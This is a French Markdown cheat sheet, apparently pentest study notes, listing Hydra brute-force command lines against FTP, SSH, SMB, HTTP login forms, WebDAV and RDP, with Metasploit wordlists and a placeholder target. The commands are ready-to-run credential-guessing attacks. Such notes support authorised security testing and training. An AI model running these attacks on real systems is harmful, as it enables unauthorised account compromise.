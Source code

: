 # 🔨 Hydra - Bruteforce Tool

[← Retour à la table des matières](../README.md)

## Syntaxe générale
```bash
hydra [options] target service
```

## Exemples par service

### FTP
```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetIP ftp
hydra -l root -P /root/Desktop/wordlists/unix_passwords.txt ftp://targetIP:5554
```

### SSH
```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetIP ssh
```

### SMB
```bash
# Bruteforce SMB avec wordlists Metasploit
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://targetIP
```

### HTTP
```bash
hydra -L users.txt -P passwords.txt targetIP http-post-form "/login:username=^USER^&password=^PASS^:Invalid"
```

### WebDAV
```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt targetIP http-get /webdav/
```

### RDP
```bash
# Réduire la vitesse (-t 1) pour éviter de shutdown le service
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://targetIP -s 3389 -t 1 -V
```

## Options utiles
- `-L` : Liste d'utilisateurs
- `-l` : Utilisateur unique
- `-P` : Liste de mots de passe
- `-p` : Mot de passe unique
- `-t` : Nombre de threads
- `-V` : Mode verbose